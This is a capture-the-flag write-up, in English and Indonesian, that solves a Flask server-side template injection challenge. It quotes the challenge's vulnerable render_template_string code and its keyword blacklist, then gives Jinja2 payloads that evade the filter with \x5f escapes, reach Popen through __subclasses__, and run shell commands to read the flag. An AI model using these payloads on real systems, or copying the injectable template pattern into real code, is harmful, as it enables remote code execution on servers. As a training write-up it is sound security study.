




# **Flasksibel**

**Difficulty:** Advanced  
**Flag:** `HC5{4P4k4H_k4L14N_b4Ru_M3ng3N4l_55T1???}`

---

## **EN**

In this challenge, we're provided with a flask-based website and its [source code](./dist/). The website has a simple form consisting of just a text input and a submission button.  


When submitted, the flask server renders the input as part of the html through a template string.

```py
    template = '''<!DOCTYPE html>
    <html>
    <body>
    <form action="" method="POST">
      Username: <input name="username"> <br>
      <input type="submit" value="Preview!">
    </form>
    <p>{}</p>
    </body>
    </html>'''.format(username)
    return render_template_string(template)
```

Checking out the source code, we see that there is a sanitization mechanism that prevents certain keywords from being inputted into the username,

```py
blacklist = ["os", "popen", "subprocess", "_", "mro", ".", "globals", "locals", "config","builtins", "import"]

def sanitize_input(name):
    for word in blacklist:
        if word in name:
            return False
    return name
```

and if it detects said keywords in the input, the server will return an error object.

````py
      username = sanitize_input(username)
      if not username:
        return jsonify({'error': 'Forbidden Words'})```
````

Looking at the blacklist, it's pretty clear that this flag requires an RCE of some sort, however, the blacklist is quite comprehensive and it took me quite a while to find the right references to work with. (_"\." AND "\_" are both BANNED? Insane._)

So the first entrypoint involves the templating mechanism. The template mechanism uses a format string to render the `username` variable onto it.

What's bad about it, is it doesn't escape/sanitize special characters that can result in the escaping of the template and dropping straight into python code.

This can be confirmed by inputting `{{ 7 * 7 }}`, where if the sanitization was done properly, we'd just see the input, instead we see 49, indicating RCE:


So now, it's just a matter of executing `ls` and `cat` somehow, without having to use the words/characters in the blacklist. Working off the [reference I had](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti), what I needed was a built-in python class object to start off with.

Fortunately, `dict` was already a class and it wasn't banned, so I started off with that.

```py
{{ dict }}
```

Then, we needed to access the `__subclasses__`. This is done so that we can see every method that inherits the `dict` class, to see which one we can exploit to run the two CLI utilities necessary.

First, what I did was access `__class__`, then drop down to `__base__`. The underscores were escaped by using their UTF-8 code variant, `\x5f`. In hindsight, dropping down to `__class__` wasn't necessary, since `dict` was already a class.

```py
{{ dict['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f'] }}
```

Then, to access the methods I did this:

```py
{{ dict['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']() }}
```

This returns a large list of methods.

Skimming through, what I was looking for was either a method to load up a file (e.g. `open()`) or one to open up a shell (e.g. `check_output()` or `Popen()`).

At index 352, I see _just_ the tool that I needed, `Popen`. `Popen` wasn't exactly ideal, as my experience with it before has only ever been to use it as a worker spawner w/o bidirectional comms, but we'll have to make do.

Looking around on Google, I found a few references on how to run `Popen` as a single turn (run a single command) shell. Here's the final payload that I came up with:

```py
{{ dict['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']()[352]('# INSERT COMMAND HERE',shell=True,stdout=-1)["communicate"]()[0]["strip"]() }}
```

Using this with `ls`, I tracked the flag down to `/` under the name `flag_ssti.txt`, so I ran this:

```py
{{ dict['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']()[352]('cat /flag\x5fssti\x2Etxt',shell=True,stdout=-1)["communicate"]()[0]["strip"]() }}
```

🎉🎉🎉🎉


---

## **ID**

Di challenge yang ini kita diberikan website berbasis flask dan [source code](./dist/)nya. Websitenya simpel, form dengan input teks dan button untuk submit.  


Saat disubmit, teks dirender di server ke htmlnya menggunakan template string.

```py
    template = '''<!DOCTYPE html>
    <html>
    <body>
    <form action="" method="POST">
      Username: <input name="username"> <br>
      <input type="submit" value="Preview!">
    </form>
    <p>{}</p>
    </body>
    </html>'''.format(username)
    return render_template_string(template)
```

Kalau kita lihat di _source code_, kita bisa lihat kalau ada sanitasi yang mencegah _request_ jika mengandung beberapa _keyword_,

```py
blacklist = ["os", "popen", "subprocess", "_", "mro", ".", "globals", "locals", "config","builtins", "import"]

def sanitize_input(name):
    for word in blacklist:
        if word in name:
            return False
    return name
```

dan jika terdeteksi ada _keyword_ dalam request, maka akan return object error.

````py
      username = sanitize_input(username)
      if not username:
        return jsonify({'error': 'Forbidden Words'})```
````

Kalo kita liat blacklistnya ini memang sepertinya sebuah RCE, tetapi melihat listnya cukup komplit, agak susah mencari referensinya. (_"\." DAN "\_" DUA-DUANYA DIBAN? Gile._)

Jadi pintu masuk yang pertama itu melalui mekanisme templatenya, dia menggunakan format string untuk merender variabel `username` ke html.

Yang gak bener itu adalah, kalo kita lihat, dia nggak sanitasi _special characters_ yang bisa digunakan untuk _escape_ dari stringnya terus langsung ke _python_.

Ini bisa kita konfirmasi pake `{{ 7 * 7 }}`, dimana kalo bener, kita harusnya liat sama persis, tapi malah 49, berarti RCE:


Nah, tinggal cari cara jalanin `ls` dan `cat`, tanpa pake kata di blacklist. Pake [referensi](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti), yang aku perluin pertama adalah class object.

Untungnya, `dict` udah class dan nggak diban, jadi aku mulai dari situ.

```py
{{ dict }}
```

Abis itu kite perlu `__subclasses__`. Ini biar kita bisa liat keturunan si `dict` class, biar bisa tau yang mana yang bsia kita gunakan untuk ngejalanin utility-utility di atas.

Jadi pertama itu `__class__`, terus `__base__`. Underscorenya diganti pake variasi special, `\x5f`. Sebenernya sih, `__class__` nggak perlu, karena `dict` udah class.

```py
{{ dict['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f'] }}
```

Nah, terus kita akses `__subclasses__`:

```py
{{ dict['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']() }}
```

Ini hasilnya list yang **gede** banget.

Aku cari di listnya untuk sesuatu yang bisa buka file (e.g. `open()`) atau yang bisa buka shell (e.g. `check_output()` or `Popen()`).

Di index 352, keliatan tuh, `Popen`. `Popen` nggak ideal sih sebenernya, karena aku cuman pernah pake dia buat buka worker shell, jadi aku nggak familier dengan sintaksnya, tapi yowes.

Liat-liat di Google, ketemu beberapa referensi untuk jalanin `Popen` sebagai shell sekali jalan (jalanin satu command aja). Ini payload akhirnya yang aku dapet:

```py
{{ dict['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']()[352]('# INSERT COMMAND HERE',shell=True,stdout=-1)["communicate"]()[0]["strip"]() }}
```

Pake ini dengan `ls`, aku nemu flag di `/` dengan nama `flag_ssti.txt`. Udah deh, gini:

```py
{{ dict['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']()[352]('cat /flag\x5fssti\x2Etxt',shell=True,stdout=-1)["communicate"]()[0]["strip"]() }}
```

🎉🎉🎉🎉

